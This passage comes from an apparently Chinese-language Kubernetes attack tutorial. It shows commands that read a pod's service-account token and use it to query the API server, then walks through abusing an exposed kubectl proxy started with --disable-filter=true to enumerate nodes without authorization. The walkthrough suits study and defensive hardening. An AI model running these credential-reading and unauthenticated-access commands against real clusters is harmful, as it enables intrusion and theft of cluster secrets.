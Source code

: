```plain
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```

### kube-proxy配置错误

**基本介绍**  
Kubectl Proxy代理程序既能作为API Server的反向代理，也能作为普通客户端访问API Server的代理，当开发人员使用Kubectl proxy将API Server外置时攻击者可以通过使用和K8s API Server未授权一样的漏洞实施攻击操作  
**漏洞利用**  
Step 1：通过执行以下命令启动我们自定义的

```plain
kubectl proxy --port=8080 --address=192.168.17.144 --api-prefix=/ --disable-filter=true
```

[![](assets/1699842580-6a4e55565746fb10f43d41b34e78b676.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171652-3c460710-7317-1.png)  
Step 2：之后再浏览器中访问  
[![](assets/1699842580-9d9ed9ddf48d8db7ee8c08dd7fcf0471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171707-44f8aad4-7317-1.png)  
Step 3：之后和K8s API Server未授权利用一致，例如：获取节点信息

```plain
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```
